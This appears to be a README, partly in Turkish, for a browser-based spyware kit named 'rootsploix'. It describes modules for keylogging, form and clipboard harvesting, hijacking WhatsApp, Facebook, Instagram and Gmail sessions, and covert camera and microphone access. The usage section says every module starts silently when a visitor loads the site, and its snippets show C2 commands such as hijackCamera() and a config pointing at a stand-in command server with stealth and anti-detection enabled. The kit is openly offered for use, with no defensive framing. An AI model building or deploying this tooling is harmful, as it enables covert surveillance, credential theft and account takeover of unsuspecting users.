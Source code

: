 ## 📋 Modüller

### 1. 🎯 Core Exploitation Engine (`core.exploit.js`)
- Cross-platform device detection
- C2 server communication
- Module orchestration
- Data encryption/obfuscation

### 2. ⌨️ Universal Keylogger (`modules/universal-keylogger.js`)
- Global keyboard capture
- Form data harvesting
- Mouse/touch tracking
- Clipboard monitoring

### 3. 📱 Social Media Hijacker (`modules/social-media-hijacker.js`)
- WhatsApp Web QR codes
- Facebook/Instagram tokens
- Gmail session hijacking
- Cross-platform cookie extraction

### 4. 📹 WebRTC Exploiter (`modules/webrtc-exploitation.js`)
- Camera/microphone access
- Screen sharing bypass
- Audio context hijacking
- Real-time media streaming

## ⚡ Kullanım

### Basic Usage
```javascript
// Otomatik başlatma - kullanıcı siteye girdiği anda
// Tüm modüller arka planda sessizce çalışır

// Manuel komutlar (C2 server'dan)
rootsploixCore.modules.webrtc.hijackCamera();
rootsploixCore.modules.keylogger.setTarget('password-field');
rootsploixCore.modules.socialMedia.extractWhatsAppData();
```

### Advanced Configuration
```javascript
// C2 server configuration
const config = {
    c2Server: 'wss://your-c2-server.com/ws',
    encryptionKey: 'your-32-char-encryption-key',
    stealthMode: true,
    antiDetection: true
};
```
